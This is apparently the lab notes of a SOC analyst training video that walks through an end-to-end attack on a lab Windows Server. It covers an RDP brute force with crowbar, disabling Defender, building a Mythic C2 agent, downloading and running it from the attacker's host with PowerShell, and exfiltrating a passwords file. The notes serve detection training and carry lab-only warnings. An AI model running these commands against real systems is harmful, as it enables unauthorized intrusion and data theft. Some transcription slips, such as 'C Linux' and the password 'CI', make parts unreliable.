




# Day 21 — RDP Brute-Force & Mythic C2 (MyDFIR 30-Day Challenge)

**Transcript / Lab Notes (all content in a single markdown section for GitHub `.md`)**

Welcome to day 21 of the 30-day MyDFIR analyst challenge which I created for the sole purpose of helping aspiring SOC analysts obtain practical experience in 30 days. If you're interested in following along I highly recommend you pause this video and start from day one if you haven't done so already.

**Objective:** by the end of this video you will know how to perform a Brute Force attack, generate your own Mythic agent, and establish a successful C2 session from your Windows Server.

**Demo overview / Attack diagram (phases):**

1. Initial Access — RDP Brute Force from Kali Linux (attacker) to Windows Server (target)
2. Discovery — run discovery commands to collect telemetry
3. Defense Evasion — disable Defender / tamper protection
4. Execution — build and deliver a Mythic agent
5. Post-exploitation — interact with the C2 session and exfiltrate a file



> **Important:** Do not target assets you do not own or do not have explicit permission to test. This is educational / lab work only.

---

**Setup (Windows Server)**

- Create a fake file `passwords.txt` under `Documents`.
- Example password used in lab: `Winter2024!` (note: this is intentionally weak for the demo).
- Change Windows password to `Winter2024!`:

  - Start → Username → Change account settings → Sign-in options → Password → Change.
  - If password policy prevents the change, edit Local Group Policy:

    - `Edit group policy` → Windows Settings → Security Settings → Account Policies → Password Policy
    - Set **Minimum password length** to `5` and **Password must meet complexity requirements** → `Disabled`
    - Apply, then change password.

**Recap:** created file `passwords.txt` under `Documents` and changed account password to `Winter2024!`.

---

### Phase 1 — RDP Brute Force (Attacker: Kali / C Linux)

- Log into Kali/C Linux as `c` (password `CI` in demo).
- Use built-in wordlists: `/usr/share/wordlists` (e.g., `rockyou.txt`).

Commands shown in the demo:

```bash
# Decompress rockyou if zipped
cd /usr/share/wordlists
sudo gunzip rockyou.txt.gz

# Inspect / extract a small list (demo used first 50)
head -50 rockyou.txt > ~/rockyou-first50.txt

# Create a custom wordlist and add the lab password at the bottom
mkdir -p ~/wordlists
head -50 rockyou.txt > ~/wordlists/defwordlist.txt
echo "Winter2024!" >> ~/wordlists/defwordlist.txt
```

- Install and use `crowbar` for RDP brute force (demo steps):

```bash
# Update repos and install dependencies
sudo apt-get update
sudo apt-get upgrade -y
sudo apt-get install -y gcc g++ # (demo used these to satisfy dependencies)

# Install crowbar (if available in repo)
sudo apt-get install -y crowbar

# Prepare target file (demo target IP example)
echo "149.248.59.41" > ~/target.txt
# Run crowbar: -b (service), -U user, -c wordlist, -s target
crowbar -b rdp -U administrator -c ~/wordlists/defwordlist.txt -s 149.248.59.41/32
```

- On success you should see `RDP success` with a timestamp and the successful credential (in the demo: `administrator : Winter2024!`).

- Connect with `xfreerdp`:

```bash
xfreerdp /u:administrator /p:'Winter2024!' /v:149.248.59.41:3389
# Accept certificate prompt when asked
```

---

### Phase 2 — Discovery (on compromised Windows Server)

Common commands executed from Windows command prompt to generate telemetry:

```powershell
whoami
ipconfig
net user
net group
net user administrator
```

- `net user administrator` shows membership in local Administrators group → indicates elevated privileges.

---

### Phase 3 — Defense Evasion (disable Windows Defender)

Two approaches:

1. GUI: Windows Security → Manage settings → uncheck Real-time protection and other protections.
2. CLI / Policy edits (demo used GUI).

**Goal:** disable Defender protections to allow payload execution (lab only).

---

### Phase 4 — Execution (build and host Mythic agent)

- Use Mythic (server + web GUI + CLI) to install agents and C2 profiles.

Demo steps (Mythic CLI and web GUI):

1. On Mythic server CLI:

```bash
# Open Mythic CLI
sudo mythic-cli
# Install agents from GitHub (example: Apollo)
install_github https://github.com/its-a-feature/Mythic_Agents/apollo
# Install C2 profile (HTTP)
install_github https://github.com/its-a-feature/Mythic_C2_Profiles/http
```

2. In Mythic web GUI:

   - Go to Payloads → Actions → Generate New Payload
   - Target: Windows
   - Output: Windows executable (PE)
   - Agent: Apollo (demo)
   - Choose commands you want embedded (demo selected all for the lab)
   - Add C2 profile: `http` (set to HTTP in demo)
   - Callback host: public IP of Mythic server (demo used `155.138.158.156`)
   - Callback interval: `10` seconds, callback port `80`
   - Name payload (demo: `servicehost-<handle>.exe`)
   - Create payload → Download the generated executable link



3. On Mythic server, fetch payload and host with a simple HTTP server:

```bash
# Example: wget the payload URL (copied from Mythic GUI)
wget 'https://<mythic>/payloads/....' --no-check-certificate -O servicehost-stepnro.exe
# Move/rename as needed
mkdir -p ~/www/one
mv servicehost-stepnro.exe ~/www/one/

# Host with Python's simple HTTP server on port 9999
cd ~/www/one
python3 -m http.server 9999
```



4. From the compromised Windows Server, download payload via PowerShell (demo used an `Invoke-WebRequest` style command):

```powershell
# Example PowerShell (demo style)
Invoke-WebRequest -Uri "http://155.138.158.156:9999/servicehost-stepnro.exe" -OutFile "$env:PUBLIC\Downloads\servicehost-stepnro.exe"
# Then run the executable (demo executed it in the Downloads folder)
Start-Process "$env:PUBLIC\Downloads\servicehost-stepnro.exe"
```

5. Ensure Mythic server firewall allows the chosen hosting port (demo used `ufw allow 9999` and eventually allowed `80` for the HTTP callback).

**Verify callback & agent:**

- On Mythic server `netstat -anob` (or equivalent) shows established connection with `servicehost-<handle>.exe` process and a PID (demo PID `6496`).
- Mythic web GUI → active callback shows the agent `my-win-<handle>` with user `administrator`, last check-in time, and process ID.

---

### Phase 5 — Post-exploitation & Exfiltration

- Interact with the agent via Mythic web GUI (keyboard icon → run commands).
- Example agent commands:

  - `whoami` → returns `administrator`
  - `get network info` / `ifconfig` (agent specific)
  - `download <path>` to retrieve files from the target



**Demo file exfil:**

- File path on Windows: `C:\Users\Administrator\Documents\passwords.txt`
- Mythic `download` command used:

```text
download C:\Users\Administrator\Documents\passwords.txt
```

- File appeared in Mythic downloads; opening it revealed `Winter2024!`.

---

## Troubleshooting & Notes (from demo)

- If `wget` fails with certificate CN mismatch, use `--no-check-certificate` to fetch the payload in the lab environment (demo).
- If the Python HTTP server cannot be reached, verify `ufw` rules:

```bash
sudo ufw allow 9999
sudo ufw allow 80
```

- If agent shows `SYN_SENT` or similar in `netstat` ensure the server allows incoming/outgoing traffic on callback port and the hosting port is reachable.
- Always configure Mythic settings via Mythic CLI when adding agents or C2 profiles.

---

## Conclusion & Safety Reminder

Mythic is a powerful framework — if you invest time to learn it, it becomes an extremely useful tool for red team and adversary simulation. With power comes responsibility: **do not** perform these actions against systems you do not own or do not have explicit written permission to test. This walkthrough was done in a controlled lab environment for educational purposes only.

Continue learning and experimenting in lab environments. Try other agents, C2 profiles, and commands to see what telemetry they generate, then use that telemetry to build detections (alerts and dashboards) — the next video will cover creating alerts and dashboards to detect Mythic activity.
